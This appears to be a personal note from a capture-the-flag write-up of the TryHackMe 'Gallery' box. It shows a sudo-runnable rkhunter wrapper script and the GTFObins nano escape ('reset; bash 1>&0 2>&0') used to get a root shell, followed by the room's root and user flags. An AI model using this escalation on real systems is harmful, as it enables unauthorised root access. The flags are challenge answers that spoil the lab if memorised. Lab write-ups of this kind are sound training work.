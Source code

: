 - ## cat /opt/rootkit.sh
```bash
mike@gallery:/tmp$ cat /opt/rootkit.sh 
#!/bin/bash

read -e -p "Would you like to versioncheck, update, list or read the report ? " ans;

# Execute your choice
case $ans in
    versioncheck)
        /usr/bin/rkhunter --versioncheck ;;
    update)
        /usr/bin/rkhunter --update;;
    list)
        /usr/bin/rkhunter --list;;
    read)
        /bin/nano /root/report.txt;;
    *)
        exit;;
esac
```

- # root
	- ## GTFObins [[gtfobins]]
	- ### nano
	-  ![[Pasted image 20220307153631.png]]
	- sudo /bin/bash /opt/rootkit.sh 
	- drops you into nano running as root
	-  type    ^r^x
					reset; bash 1>&0 2>&0
	- then you will get a root#  prompt

```bash
root@gallery:/tmp# cat /root/root.txt
THM{ba87e0dfe5903adfa6b8b450ad7567bafde87}
root@gallery:/tmp# cat /home/mike/user.txt
THM{af05cd30bfed67849befd546ef}
```